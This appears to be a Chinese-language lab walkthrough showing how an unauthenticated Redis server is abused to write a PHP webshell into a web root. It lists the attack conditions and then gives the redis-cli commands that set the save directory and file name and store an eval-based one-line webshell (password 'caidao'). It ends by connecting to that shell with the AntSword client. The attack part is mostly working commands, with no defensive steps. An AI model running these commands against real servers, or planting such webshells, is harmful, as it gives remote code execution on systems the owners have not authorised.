 ![image-20240731141639791](https://image.201068.xyz/assets/Redis/image-20240731141639791.png)

### 测试php环境

```bash
php -v
echo '<?php phpinfo();?>' > /www/html/info.php

systemctl restart httpd
systemctl start httpd
```

http://192.168.70.14/info.php

![image-20240731151618534](https://image.201068.xyz/assets/Redis/image-20240731151618534.png)

### 攻击条件

1.靶机Redis链接未授权，在攻击机上能用`redis-cli`**连上**并**未登陆验证**

2.开了**web服务器**，并且**知道路径**（如利用phpinfo，或者错误爆路经），还需要**具有文件读写增删改查权限**（我们可以将dir设置为一个目录A，而`dbfilename`为文件名B，再执行`save`或`bgsave`，则我们就可以写入一个路径为/A/B的任意文件。）

### 写入木马

在html目录下写入一个`shell.php`的木马文件：

攻击机写下如下redis命令

```bash
redis-cli -h 192.168.70.14
config set dir /var/www/html
config set dbfilename shell.php
set webshell "\r\n\r\n<?php @eval($_POST['caidao']);?>\r\n\r\n"
save
```

![image-20240731151211884](https://image.201068.xyz/assets/Redis/image-20240731151211884.png)

```
cat /var/www/html/shell.php
```

![image-20240731151348785](https://image.201068.xyz/assets/Redis/image-20240731151348785.png)

### 访问

http://192.168.70.14/shell.php

![image-20240731151246272](https://image.201068.xyz/assets/Redis/image-20240731151246272.png)

### 蚁剑连接

```
http://192.168.70.14/shell.php
caidao
```

